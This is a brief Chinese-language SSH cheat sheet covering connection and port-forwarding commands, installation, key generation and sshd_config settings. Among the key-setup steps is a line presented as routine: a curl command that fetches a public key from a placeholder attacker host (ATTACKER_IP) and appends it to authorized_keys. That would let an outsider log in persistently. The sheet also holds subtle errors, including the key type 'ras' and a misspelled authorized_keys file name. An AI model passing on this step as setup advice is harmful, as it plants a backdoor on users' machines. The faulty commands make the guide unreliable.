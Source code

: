 # SSH
## 基础命令
```sh
# 直接连接
ssh username@ip
# 使用非默认端口
ssh username@domain -p port
# 使用代理主机
ssh -J proxy-server:22 target-server 
# 将本地的 3333 端口转发到服务器的 2222 端口
ssh username@domain -R 2222:localhost:3333 
# 将服务器的 2222 端口转发到本地的 3333 端口 
ssh username@domain -L 3333:localhost:2222
```

## 安装
```sh
# Client:
sudo apt-get install ssh 
# Server:
sudo apt-get install openssh-server
```

## 生成密钥
1. `ssh-keygen -t ras -C "email" `
2. 位置：
   + 私钥：`~/.ssh/id_rsa`
   + 公钥：`~/.ssh/id_rsa.pub`
3. Git 服务密钥配置地址：
   + https://github.com/settings/keys
   + https://gitee.com/profile/sshkeys
4. 写入主机的 authorized_keys：
`curl https://ATTACKER_IP/.ssh/id_rsa.pub >> ~/.ssh/authotized_keys`

我的公钥：
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCj8b9SWuI/oKquMiy+vOSOOcokMF6XkUkc7TlX33bIy3xK5l8rgJ2CAJ+xORAA2JJzwXdu8AMDsFfk8DHMj7kcs/K505iMpiIGhUWHXkl+UiIhD+B/v9KIv4jQQF9wmJR/jaw8MdHyUXZA2maV6sY41swoRPyAtYb6HW/32pWsqsDq2DeQQyARqiPpV0pcFV3BXK0nOBl8+W9HjP8rYBFbXIfpXTvhSrzOz+NXoV8E8/w7/jD5YDPbMQ16FPQzk3CVT4pUL4x1nOqxFgvLbiwfPsAWF6a2Lr6A8ZcU5AUI2GC5+X6r47KlGUl0mtTOkarBkJ91+a//JFHmstrLrKyV JustSong@MyPC
```

可以使用 `ssh-copy-id username@remote_host` 很方便地为远超主机配置密钥访问。
如果需要指定公钥，使用 `-i` 即可。
如果需要指定端口，使用 `-p` 即可。

## 配置
```sh
sudo vi /etc/ssh/sshd_config 

## 允许root登录 
PermitRootLogin yes 
## 使用密钥登录 
RSAAuthentication yes 
PubkeyAuthentication yes 
## 禁止空密码和密码登录 
PermitEmptyPasswords no 
PasswordAuthentication no 
## 监听端口（一般默认是 22，或者是自己已开的端口，不改即可） 
Port 22 
```
修改完配置之后重启以应用更改：`sudo service ssh restart`
